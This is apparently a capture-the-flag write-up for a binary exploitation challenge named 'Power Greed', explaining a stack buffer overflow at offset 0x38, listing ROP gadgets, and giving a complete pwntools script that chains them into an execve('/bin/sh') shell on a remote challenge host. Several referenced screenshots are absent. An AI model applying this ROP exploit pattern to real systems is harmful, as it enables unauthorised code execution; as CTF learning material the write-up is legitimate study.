

# Power Greed

Class: pwn
Status: Done



All in our zip is our binary 


Let’s check the security & other info 


Okay, let’s give a try.


Interesting in our log is show if someone try a buffer overflow then get a reverse shell, but it crashed. 

If we decide to choose another option we could see the next: 


The program give us a try to exploit a Buffer Overflow but we need to take in mind the stack canary so we need to find our sweet spot. 

It looks our sweet spot is 0x38 to do a Buffer Overflow, now we need to plan our attack

## Vector attack

- We need to remember our binary is statically linked, this means we can’t leak any address to do a ret2libc attack, so we need to craft a ROP chain with the execve(”/bin/sh”,0,0)

So how we do it?

We need to craft something like:

| rax | Function | rdi | rsi | rdx |
| --- | --- | --- | --- | --- |
| 59 | sys_execve | const char *filename | const char *const argv[]  | const char *const envp[] |

So with ROPgadget we need to find useful gadgets 

```nasm
0x000000000042adab : pop rax ; ret
0x0000000000402bd8 : pop rdi ; pop rbp ; ret
0x000000000040c002 : pop rsi ; pop rbp ; ret
0x000000000046f4dc : pop rdx ; xor eax, eax ; pop rbx ; pop r12 ; pop r13 ; pop rbp ; ret
0x000000000040141a : syscall
```

Then we need to find if our binary has “/bin/sh” our we need to build in the process


Nice, we have in 0x481778, so  with this we could create our testing exploit. 

And it looks like this


Test in local and we get this


It seems it works, we update our exploit to remote  explotation and check if it works


And it worked our final exploit is 

```python
from pwn import *

#p = process("./power_greed")
p = remote("94.237.54.192", 56057)

rax = 0x000000000042adab
rdi = 0x0000000000402bd8
rsi = 0x000000000040c002
rdx = 0x000000000046f4dc
sys = 0x000000000040141a
sh = 0x481778

payload = flat({
    0x38: p64(rdi) + p64(sh) + p64(0) + p64(rsi) + p64(0)*2 + p64(rdx) + p64(0)*5 + p64(rax) + p64(0x3b) + p64(sys)
    })

p.sendline(b"1")
first = p.recv().decode()
p.sendline(b'1')
second = p.recv().decode()
p.sendline(b'y')
question = p.recv().decode()
p.sendline(payload)
p.recv()
p.interactive()
```